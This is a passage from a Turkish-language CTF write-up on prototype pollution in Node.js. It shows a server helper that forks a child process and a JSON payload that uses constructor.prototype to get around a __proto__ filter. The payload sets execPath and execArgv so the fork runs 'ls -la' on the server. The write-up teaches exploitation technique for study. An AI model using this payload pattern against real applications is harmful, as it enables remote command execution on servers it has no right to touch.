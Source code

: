 Bu örnekte __proto__’nun banlı bir keyword olduğunu görüyoruz. Bunun yerine constructor.prototype kullanabiliriz.

DebugHelper.js’i incelediğimiz zaman ise

```javascript
const { execSync, fork } = require('child_process');
module.exports = {
    execute(res, command) {
        res.type('txt');
        if (command == 'version') {
            let proc = fork('VersionCheck.js', [], {
                stdio: ['ignore', 'pipe', 'pipe', 'ipc']
            });
            proc.stderr.pipe(res);
            proc.stdout.pipe(res);
            return;
        } 
        
        if (command == 'ram') {
            return res.send(execSync('free -m').toString());
        }
        
        return res.send('invalid command');
    }
}
```

child_process açıldığını görüyoruz. Yani ilk endpointimize giden json

degisken.constructor.prototype olarak fork fonksiyonuna erişebilir. NodeJS fork’a bakınca

![img](https://miro.medium.com/max/700/1*rg8vFq1ow48H9DQGgCSYow.png)

böyle bir kullanımı olduğunu görüyoruz. Dolayısıyla JSON kabul eden endpointimize

```javascript
{
   "constructor": {
      "prototype": {
         "execPath": "ls",
         "execArgv": [
            "-la",
            "."
         ]
      }
   }
}
```

attığımız zaman karşı tarafta bir fork açılarak ls -la çalışacaktır.

Bamboo CTF 2021 Time to Draw

Son örneğimiz de 2021 Bamboo CTF’den olacak:
